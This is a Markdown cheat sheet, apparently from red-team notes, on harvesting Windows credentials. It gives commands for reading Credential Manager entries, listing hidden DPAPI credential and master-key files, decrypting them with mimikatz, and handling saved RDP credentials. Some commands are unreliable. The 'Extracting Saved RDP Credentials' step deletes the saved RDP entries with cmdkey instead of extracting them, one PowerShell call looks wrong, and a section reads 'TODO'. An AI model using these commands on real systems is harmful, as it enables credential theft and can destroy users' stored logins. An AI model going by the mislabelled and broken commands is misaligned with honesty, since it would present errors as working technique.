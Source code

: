 # Living off the Land

## 01 - Types of credentials to dump

Various credentials will be harvested and they are:
- Web browsers
- Emails
- Video Conferences
- Wi-Fi credentials
- Certificates
- RDP passwords
- etc

## 01 - View Credentials

### 1.1 - Powershell

```powershell
PS C:\> $credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

## 02 - List Credential Files

TODO: Fill this info

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```
C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>
```

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

## 03 - Extracting Saved RDP Credentials

### 3.1 - Powershell

```
PS C:\> cmdkey.exe /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey.exe /delete:($_ -split ' ')[-1] }
```

---
## References

### Hacktricks

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

### InternalAllTheThings

- [InternalAllTheThings: Windows - DPAPI](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi)

### Hacking Articles

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

### The Hacker Recipes

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [The Hacker Recipes: Cred](https://tools.thehacker.recipes/mimikatz/modules/vault/cred)

- [The Hacker Recipes: Vault](https://tools.thehacker.recipes/mimikatz/modules/vault/list)

### Pentestlab

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)